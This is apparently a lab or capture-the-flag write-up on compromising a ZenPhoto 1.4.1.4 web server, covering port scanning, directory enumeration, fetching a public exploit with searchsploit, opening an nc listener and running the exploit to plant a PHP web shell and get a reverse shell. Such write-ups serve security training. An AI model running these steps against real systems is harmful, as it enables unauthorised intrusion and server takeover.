

repository: gmrvh/blog · page: pg/zenphoto/index.html · generator: mkdocs

# ZenPhoto - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed several open services:
```
PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 83:92:ab:f2:b7:6e:27:08:7b:a9:b8:72:32:8c:cc:29 (DSA)
|_  2048 65:77:fa:50:fd:4d:9e:f1:67:e5:cc:0c:c6:96:f2:3e (RSA)
23/tcp    open  ipp           CUPS 1.4
| http-server-header: CUPS/1.4
| http-methods:
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
80/tcp    open  http          Apache httpd 2.2.14 ((Ubuntu))
|_http-server-header: Apache/2.2.14 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
3306/tcp  open  mysql         MySQL (unauthorized)
```

From this scan, I identified that the target was running Ubuntu Linux with several services:
- OpenSSH 5.3p1
- CUPS 1.4 printing service (unusually on port 23)
- Apache 2.2.14 web server
- MySQL database server

### Web Enumeration
I began investigating the web server on port 80 with directory enumeration:
```bash
gobuster dir -u http://192.168.X.X -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

This revealed a ZenPhoto installation at the root directory. ZenPhoto is an open-source gallery CMS application. Looking at the version information in the footer, I identified it as ZenPhoto 1.4.1.4.

### Vulnerability Research
Research indicated that ZenPhoto 1.4.1.4 is vulnerable to several critical vulnerabilities:
1. Multiple PHP file upload vulnerabilities
2. Remote Code Execution via third-party library flaws
3. SQL injection vulnerabilities

The most critical vulnerability is a remote code execution in the image upload functionality (CVE-2012-5978).

## Gaining Initial Access

### Exploiting ZenPhoto
I downloaded a public exploit for ZenPhoto 1.4.1.4:
```bash
searchsploit -m php/webapps/18083.php
```

This exploit takes advantage of a file upload vulnerability in the TinyMCE editor component of ZenPhoto.

I modified the exploit to point to my target and set up a listener:
```bash
nc -lvnp 4444
```

Then executed the exploit:
```bash
php 18083.php http://192.168.X.X/
```

This uploaded a PHP web shell to the server and provided me with a reverse shell connection as the www-data user.
